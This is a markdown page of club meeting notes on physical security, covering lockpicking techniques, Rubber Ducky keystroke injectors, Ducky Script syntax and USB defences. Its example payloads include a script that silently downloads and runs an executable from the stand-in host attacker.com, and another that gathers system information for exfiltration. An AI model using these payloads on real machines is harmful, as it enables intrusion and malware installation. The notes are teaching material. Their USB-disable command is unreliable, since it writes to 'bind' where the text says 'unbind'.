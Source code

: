 ```yaml
---
title: "Meeting_3"
author: ""
type: ""
date: 2023-09-27T17:49:47-04:00
subtitle: ""
image: ""
tags: []
---
```

# Meeting 3: Physical Security


## Table of Contents
- [Lockpicking](#lockpicking)
  * [Introduction to Lockpicking](#introduction-to-lockpicking)
  * [Common Tools and Their Uses](#common-tools-and-their-uses)
  * [Lockpicking Techniques](#lockpicking-techniques)
  * [Ethical Considerations](#ethical-considerations)
- [Devices](#devices)
  * [Rubber Duckies](#rubber-duckies)
  * [Ducky Script](#ducky-script)
  * [Creative Devices](#creative-devices)
  * [Defending Yourself from USB Attacks](#defending-yourself-from-usb-attacks)

## Lockpicking
<https://simmer.io/@Xill/lockpick-simulator>
Move the tool with Q, E, WASD, and use the slider on the bottom to increase tension.

### Introduction to Lockpicking

Lockpicking is the art of manipulating the components of a mechanical lock without the original key to open it. While often associated with criminal intent, lockpicking is an essential skill for certain professions like locksmithing, and can be a fulfilling hobby for many enthusiasts.

### Common Tools and Their Uses

- **Tension Wrench:** A tool used to apply rotational tension on the lock cylinder. This tension causes the lock pins to bind, allowing the picker to manipulate them.
  
- **Hook Picks:** These tools are used to individually set pins inside the lock.
  
- **Ball Picks:** Used for wafer locks, the ball shape allows manipulation of multiple wafers at once.
  
- **Diamond Picks:** Suitable for both wafer and pin tumbler locks. The shape helps in raking and single pin picking.
  
- **Rakes:** Tools like the Bogota or the snake rake are moved in and out of the lock to quickly set multiple pins at once. Raking is faster but less precise than single pin picking.

### Lockpicking Techniques

1. **Single Pin Picking (SPP):** A technique where each pin is set individually. This is the most versatile method but requires practice.
  
2. **Raking:** A faster method than SPP. The rake is moved in and out of the lock, attempting to set multiple pins at once. It's less precise but can open many locks in seconds.

3. **Bumping:** Using a specially cut key, the lock is "bumped" causing the pins to jump, allowing the lock to turn. Not all locks are vulnerable to this technique.

4. **Impressioning:** A method where a blank key is inserted into the lock and manipulated to leave marks indicating where cuts should be made.

## Devices
### Rubber Duckies
Popularized by Hak5, this is a common language for keystroke injector tools.

Some keystroke injectors double as both a real USB and a keystroke injector, so the victim won't notice the difference. 
#### Installing Script Emulator
We would like to use this program <https://github.com/taibhse-designs/DuckyEmulator>

So we get it with 

`git clone https://github.com/taibhse-designs/DuckyEmulator.git`

Run the following command in the repository's `src` directory

`curl https://dlcdn.apache.org//commons/codec/binaries/commons-codec-1.16.0-bin.tar.gz -o commons-codec-1.16.0-bin.tar.gz`

Extract the library with

`tar -xzf commons-codec-1.16.0-bin.tar.gz `

And compile the java code with

`javac -cp .:commons-codec-1.16.0/commons-codec-1.16.0.jar *.java`

From the `src` directory: `java -cp .:duckyemulator/commons-codec-1.16.0/commons-codec-1.16.0.jar duckyemulator.DuckyEmulator`


### Ducky Script
Simple .txt files. 

#### Ducky Payloads
+ <https://github.com/hak5/usbrubberducky-payloads/tree/master>
+ <https://shop.hak5.org/blogs/payloads>

+ REM: Used for comments. It doesn't affect the script's execution.
```ducky
REM This is a comment
```
+ DELAY: Pauses the script for a specified number of millisecond
```
DELAY 1000  REM Waits for 1 second
```
+ STRING: Types the subsequent string of characters as if typed on a keyboard.
```
STRING Hello, World!
```
+ ENTER (or RETURN): Simulates pressing the Enter key.
```
ENTER
```
+ GUI (or WINDOWS or COMMAND): Simulates pressing the Windows key (on Windows) or Command key (on macOS).
```
GUI r  REM Opens the Run dialog on Windows
```
+ ALT, CONTROL (or CTRL), SHIFT: Modifier keys used in combination with other keys.
```
CONTROL ALT DELETE  REM Sends the Ctrl+Alt+Del command
```

##### Example Payloads
+ Payload Delivery: Use Ducky Script to automate the process of downloading and executing a payload from a remote server.
```
REM Open a command prompt
GUI r
STRING cmd
ENTER
DELAY 500
REM Download and execute payload
STRING powershell -NoP -NonI -W Hidden -Exec Bypass -Command "Invoke-WebRequest -Uri 'http://attacker.com/payload.exe' -OutFile 'C:\temp\payload.exe'; Start-Process 'C:\temp\payload.exe'"
ENTER
```
+ Information Gathering: Quickly execute commands to gather system information and save to a file or exfiltrate.
```
REM Gather system info using systeminfo command
GUI r
STRING cmd
ENTER
DELAY 500
STRING systeminfo > C:\temp\info.txt
ENTER
```

### Creative Devices
Cables:
+ <https://zsecurity.org/product/badusb-c-keystroke-injection-cable/>
+ <https://shop.hak5.org/products/omg-cable>

Bash Bunny:
+ <https://shop.hak5.org/products/bash-bunny>
+ <https://github.com/hak5/bashbunny-payloads>

### Defending yourself from USB Attacks
#### Turning off your ports
+ Windows Device Manager
+ Linux Mint
    1. Run `lsusb` to determine the bus and device number of the USB device you want to disable.
    2. To disable the device, echo the bus and device number to `/sys/bus/usb/drivers/usb/unbind`. For example, if your device is on bus 2 and its device ID is 1, you would run:
    
    ```bash
    echo '2-1' | sudo tee /sys/bus/usb/drivers/usb/bind
    ```

    3. To re-enable the device, echo the bus and device number to `/sys/bus/usb/drivers/usb/bind`:

    ```bash
    echo '2-1' | sudo tee /sys/bus/usb/drivers/usb/bind
    ```



